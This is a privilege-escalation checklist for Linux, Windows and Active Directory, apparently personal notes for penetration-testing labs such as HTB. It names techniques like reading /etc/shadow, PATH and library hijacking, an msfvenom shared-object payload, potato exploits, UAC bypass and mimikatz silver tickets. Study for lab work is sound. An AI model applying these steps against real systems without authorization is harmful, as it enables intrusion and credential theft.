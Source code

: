 ﻿
### **Linux:**
1. Check **sudo -l**
2. **LinPEAS**
3. **Horizontal privesc**!
4. Check **.bash_history**
5. Always check **/** directory
6. Check **SUID** binaries (carefully review all)
7. uname -a
8. **find** / -f filename
9. **find** / -u user
10. **find** / -writable
11. Try to find **processes** running for the next target user
12. netstat -ano (check for **local service**)
13. If local ports are open, try to **curl them locally**
14. Try to access user **home dirs** from **local web ports**
15. Check **HTTP** directory for **passwords**
16. Check **password reuse/null** password
17. Check **/etc/[service-config-files]** for other services found (web,ftp,etc)
18. /etc/passwd
19. /etc/shadow
20. **SNMP** can execute scripts with **NET-SNMP-EXTEND-MIB/ExtendObjects**, try to specify OID
HTB pit)
21. Drop a shell with "**bash**" **inside msfconsole**
22. If another user ssh is not working, try **password with su**
23. /etc/crontab (always check for **crontab** -l)
24. Check for **mongodb scheduled** tasks (node machine, rana khalil)
25. Use **env variables**/**wildcards**/**symlinks** when path/file name **filtering**
26. **Pspy** (process spy, for recurring processes, check build for 32/64 bit)
27. Python **library hijack** (create import file on the same dir)
28. Create **symlinks** for files (or subfiles if writeable) running in **cron jobs**
29. For a binary having BO, use **gdb** (check HTB Frolic)
30. **Check for groups** with id, and *find / -group [group] 2>/dev/null*
31. For **NetBSD**, **sudo = doas**
32. If **SETENV** is set in sudo, you can run the command with env variable value 
program path variables, library hijacking etc, see HTB admirer)
33. Change **$PATH** value to **execute elevated binaries** with the custom one in pwd/sudo scripts
34. If /usr/bin/**screen** is elevated, run screen -x [user]/[sess_id] (see HTB backdoor)
35. For **shared objects:**
a. msfvenom -p payload -f elf-so -o utils.so LHOST= LPORT=
b. Shared library path: **/usr/local/lib/dev**
c. Check for custom **LD_LIBRARY_PATH** variables set in crontab to place so files
36. For **shared library:**
a. Create **rootshell** c file
b. Check function name and return type (void, _init())
c. Check **header** files (stdlib, sys/types.h, stdio)
d. Common ports
e. Generic bash -I payload

### **Windows:**
1. Users\[user]\Desktop
38. **WinPEAS**
39. **Horizontal privesc**!
40. **UAC Bypass** (manual > msf > empire)
41. **powerup.ps1**
42. **Windows-exploit-suggester**
43. Check **powershell history** (winpeas)
44. Check **AlwaysInstallElevated** (winpeas sysinfo, create msf msi file)
45. Check **program files (x86)**
46. **JuicyPotatoNG** with **seimpersonate**
47. For windows <=2003, and SeImpersonate, use **Churrasco.exe** (github)
48. Look around the file system for **sensitive strings**
49. **reg query**
50. Check Program Files for installed apps
51. **sc query** list brief
52. **sc qc** *[service_name] (unquoted paths/autorun)*
53. **wmic** *service get name,startname*
54. **whoami** **/priv**
55. *net user* **/domain**
56. **tasklist**
57. **net localgroup** *user*
58. Check for other users, try to horizontal privesc (may have more privs)
59. Check for **LAPS** access
60. Check for files and folders **permissions** with **icacls**
61. Decrypt **PSCredential** with CLiXml (HTB Omni)
62. Use **psexec.exe** to upgrade to **SYSTEM** with **admin** privilege
63. Grant file permission inside a folder with **icacls /grant**
64. Use **printspoofer** for seimpersonate on **win 10/server 2019**, else juicypotato
65. Check **AlwaysInstallElevated** (can **execute any software package** installer with SYSTEM (e.g. **msi**)
66. Check for **WSL path** (rootfs)

### **Active Directory:**
1. **net user /domain**
2. Horizontal!
3. When found **other user creds**, run **service as another user** with powershell PSCredential and **Start-Process**
4. **cmdlist** for checking another user creds, use **runas** to login
5. Obtain kerberos tickets with **GetUserSPNs** with account details if **88** open
6. If a service account pass/hash is found, try **silver ticket** with **ticketer.py**/**mimikatz** kerberos
golden
7. If an account is allowed to **Delegate** to domain, we can request service tickets with **getST.py** *-impersonate administrator*, and **login** with *psexec -no-pass*
8. **ADPEAS**
9. **whoami /groups**

